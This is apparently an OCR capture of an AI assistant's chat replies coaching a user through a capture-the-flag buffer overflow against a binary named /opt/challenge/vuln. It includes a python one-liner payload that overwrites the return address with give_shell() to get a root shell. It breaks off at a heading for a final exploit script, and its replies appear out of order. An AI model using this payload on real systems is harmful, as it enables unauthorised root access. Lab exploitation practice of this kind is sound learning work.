 That `080484b6` is the address you want to jump to (you’ll reverse it for your exploit: `\xb6\x84\x04\x08`).

### 🔹 Option 3: **Use `readelf` (also likely installed)**

```bash
readelf -s /opt/challenge/vuln | grep give_shell

```

---

### 🧠 Reminder: How to Use GDB Correctly (When It's Installed)

You don't type `disas` or `run` in the shell directly. You first enter `gdb`, then run commands inside its prompt:

```bash
samuel@bunna:~$ gdb /opt/challenge/vuln
(gdb) disassemble handle_input
(gdb) run

```

---

### 🚀 Next Steps (If GDB is not an option)

Just proceed with static analysis using `objdump`:

1. Find the address of `give_shell()`.
2. Build the exploit payload with the correct offset (usually 76 bytes of padding, then the address in little-endian).
3. Pipe the payload:

```bash
python3 -c "print('A'*76 + '\xb6\x84\x04\x08')" | /opt/challenge/vuln

```

*(Replace the address bytes with the actual ones you find.)*

---

Let me know if you'd like help **generating the payload dynamically**, **automating the exploit**, or **verifying the offset with a pattern**!

Great, neo! You've shared the source code of the vulnerable program. Since it uses `gets()` and contains a `give_shell()` function, we can exploit it using a **buffer overflow** to **overwrite the return address with the address of `give_shell()`**, giving us a root shell.

---

## 🧨 Final Exploit Script (All-in-One)
